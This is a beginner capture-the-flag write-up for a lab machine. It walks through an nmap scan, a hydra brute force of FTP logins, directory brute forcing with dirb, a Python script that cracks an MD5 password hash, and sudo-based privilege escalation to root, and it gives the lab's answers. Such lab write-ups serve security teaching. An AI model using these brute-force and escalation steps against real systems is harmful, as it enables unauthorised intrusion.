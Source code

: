 ```yaml
---
title: "Enumeration and Escalation"
description: ""
summary: ""
date: 2024-04-04T12:47:06+08:00
lastmod: 2024-04-04T12:47:06+08:00
draft: false
menu:
  docs:
    parent: "haiku"
    identifier: "enumeration-and-escalation-e46b1b1bcf71d14b77bf421c4ad1dd5d"
weight: 999
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  noindex: false # false (default) or true
---
```

A basic B2R machine for beginners.

## Task 1
### Description
We found an IP address associated with Flaming Donkey. Scan the IP to see what service they are implementing. What are the open ports? <br>   

### Solution
```bash {frame="none"}
nmap -p- -A -T4 10.75.102.188 
```

`-A` is the combination of `-O`, `-sC` and `-sV`. By running this simple command, we can scan all the open ports on this IP address. <br>   
Answer: `21,22,5000`


## Task 2
### Description
Check out the ports found in your nmap scan. Which services take a username and password? Which port contains a website you can enumerate? Inspect the website, what can you find? What is the username's password? <br>   

### Solution
![](haiku-1.png) <br>   
Port `5000` is running a website. By viewing the source code we will be able to see the comment stating that the password of the user `carl` is in `/ftppasswords`. <br>   

![](haiku-2.png) <br>   
Browsing to `/ftppasswords` shows a list of passwords. We can download the list for later using the command below:
```bash {frame="none"}
wget http://10.75.102.188/ftppasswords
```

![](haiku-3.png) <br>   
We can then use `hydra` and provide username `carl` using `-l` and brute force the password using `-P` by providing the password list. <br>   
```bash {frame="none"}
hydra -l carl -P ftppasswords ftp://10.75.102.188
```
This command will connect to FTP service as user `carl` and brute force the passwords in `ftppasswords` to find the correct password. <br>   
Answer: `carlisdabomb`

## Task 3
### Description
Now that we have a username and password, log into the ftp server. Look around, be nosy, read the messages. What is the name of the directory where the login page is found?

### Solution
![](haiku-4.png) <br>   
Use `ls` to list the files and directories in the FTP server and we can see that there are 3 text files in it. We can then use `get <file>` to download each of the file to our attacker machine.

![](haiku-5.png) <br>   
From those files, we know that user `carl` reuses his password somewhere. Other than that, we also get a list of hidden directories which one of them might be the login page. Therefore, we need to brute force the directory in order to get the correct directory name. <br>   
![](haiku-6.png) <br>   
We can use `dirb` by providing the wordlist `hiddenDirectories.txt` to brute force the directory. Scanning result with status code 200 shows the correct directory of the website has been found. <br>   
Answer: `9z5hjiUuMobNIwbh0CS2`

## Task 4
### Description
What is the password for Randy?

### Solution
From Task 3, once we get the correct directory name, we can then login as carl, which will redirect us to the page below. <br>   
![](haiku-7.png) <br>   
From this page we know that user `randy` has a password which is also taken from the password list. However the password is hashed into MD5 format. Therefore, we can create a script to convert the password list `ftppasswords` into MD5 hash, and compare with Randy's password to find the correct password. <br>   
```python {frame="none"}
import hashlib

# Your provided MD5 hash
target_hash = "07b832e822ffe44d9c0eb4acda78388a"

def hash_passwords(file_path):
    with open(file_path, 'r') as file:
        for line in file:
            # Remove newline and whitespace
            password = line.strip()
            # Convert the password to an MD5 hash
            hashed_password = hashlib.md5(password.encode()).hexdigest()
            # Compare the hash to the target hash
            if hashed_password == target_hash:
                print(password)
                return  # Exit after finding the first match

hash_passwords('ftppasswords')
```
With the help of ChatGPT, I've created a simple python script to do this. By running the python script, we can get the correct password in plaintext. <br>   
![](haiku-8.png) <br>   
Answer: `straightcashhomie84`


## Task 5
### Description
What is the number found in `decrypt.txt`?

### Solution
Once we get the password for user `randy`, we can use the credentials to connect to SSH using the command below and provide the password after the prompt:
```bash {frame="none"}
ssh randy@10.75.102.188
```

![](haiku-9.png) <br>   
Then we can do basic privilege escalation by running the command `sudo -l` to see the sudo privileges of Randy.

![](haiku-10.png) <br>   
Therefore, we can visit [GTFOBins](https://gtfobins.github.io/)to get the command to be used to generate a root shell. <br>   
![](haiku-11.png) <br>   
Lastly, we can use `find` command to search recursively from root `/` directory to find a file named `decrypt.txt`. <br>   

> 💡 `2>/dev/null` is used to disregard any error messages so that those error messages will not flood our screen which might make it harder to find the successful result.
<br>   

Answer: `292416966271042510263`